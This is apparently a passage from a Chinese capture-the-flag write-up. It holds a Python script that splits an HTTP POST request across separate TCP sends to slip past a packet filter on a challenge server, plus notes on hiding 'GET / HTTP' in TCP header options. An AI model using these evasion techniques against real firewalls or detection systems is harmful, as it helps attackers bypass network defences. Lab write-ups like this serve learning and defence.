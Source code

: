 ```python
import socket

def send_split_post_request(host, port, path, headers, data):
    # 创建一个 TCP socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    # 第一次传输：发送请求行和部分头部
    request_part1 = "PO"
    s.sendall(request_part1.encode())
    
    request_part2 = f"ST {path} HTTP/1.1\r\n"
    for header, value in headers.items():
        request_part2 += f"{header}: {value}\r\n"

    # 第二次传输：发送剩余的头部和数据
    request_part2 += f"Content-Length: {len(data)}\r\n\r\n{data}"
    s.sendall(request_part2.encode())

    # 接收响应
    response = s.recv(4096).decode()
    s.close()
    return response

# 示例使用
headers = {
    "Host": "example.com",
    "User-Agent": "MyAgent/1.0"
}
data = "2132:MEUCIQDZh9A8FMRyArPyLTf1gmCBsVeMRlFyQuM8yzHjCMTyNwIgBH0JUa/m68yUl69XNvW4gPIVWfwp7JRWMxK98t6oXBE="

response = send_split_post_request("202.38.93.111", 18080, "/", headers, data)
print(response)
```



- 我的P

上份代码再跑了一下就出来了，很奇怪，我也不知道为什么

这条规则检测第一个字母是不是p，感觉是按int来判定的，但是我字符占两个byte？所以判定错误了

反正应该是非预期解



- 我的GET

第一小问废弃的想法用上了：在tcp包头塞GET / HTTP

但是其实不是很好塞，上网搜了一下tcp包头的结构，本来想注seq和ack字段还有dataof，发现只有9.5个字节

再看了一下就是tcp包头长度是可选的，如果更长点有个option字段，而原本正好20byte，ip也20byte，塞到option字段刚刚好凑到题目的50byte的限制。
